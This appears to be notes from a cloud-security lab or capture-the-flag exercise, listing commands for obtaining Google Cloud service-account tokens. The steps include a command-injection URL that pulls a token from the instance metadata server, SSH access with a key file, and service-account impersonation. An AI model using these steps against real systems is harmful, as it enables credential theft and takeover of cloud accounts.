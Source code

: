 - Get `gke-service-account@sonic-airfoil-339910.iam.gserviceaccount.com` token
```
Visit http://34.42.232.208/?cmd=curl%20-H%20%22Metadata-Flavor:%20Google%22%20http://169.254.169.254/computeMetadata/v1/instance/service-accounts/gke-service-account@sonic-airfoil-339910.iam.gserviceaccount.com/token
```
- Get `dsa-service-account@sonic-airfoil-339910.iam.gserviceaccount.com` token
```
ssh -i .\computessh strukt@35.238.181.166
gcloud auth print-access-token (in the SSH session)
```
- Get `msa-service-account@sonic-airfoil-339910.iam.gserviceaccount.com` token
```
gcloud auth print-access-token --impersonate-service-account msa-service-account@sonic-airfoil-339910.iam.gserviceaccount.com --access-token-file .\ssh-access-token (token from SSH session)
```
- Get `1027834907986-compute@developer.gserviceaccount.com` token
```
gcloud compute ssh --zone us-central1-b staging-instance-1 --project $p2
gcloud auth print-access-token
```